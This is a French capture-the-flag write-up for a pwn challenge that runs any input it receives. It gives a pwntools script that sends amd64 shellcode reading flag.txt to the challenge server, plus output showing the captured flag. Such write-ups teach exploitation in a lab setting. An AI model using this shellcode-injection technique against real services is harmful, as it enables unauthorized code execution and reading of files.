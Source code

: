 # WriteUp

Le texte du challenge nous indique que le totem exécute tout ce que l'on lui dit.
Il semblerait donc qu'il y ait une évaluation de l'entrée utilisateur.

Il suffit donc de se connecter au service et d'y insérer son shellcode (ici un 'cat flag.txt') :
```python
from pwn import *

# Architecture cible x64
context.clear(arch="amd64")

# Connexion au service
p = remote("challenges.hackagou.nc", 5001)

# Shellcode classique, cat flag.txt
shellcode = asm(shellcraft.cat('flag.txt'))

# Envoi du shellcode directement après la sortie du programme
p.sendlineafter(b"?\n", shellcode)

# Sortie interactive
p.interactive()
```

```bash
❯ python pwn-paroles.py
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Switching to interactive mode
OPENNC{13_Gu3rR13r_p4r13_54n5_R3gr37!}
[*] Got EOF while reading in interactive
```
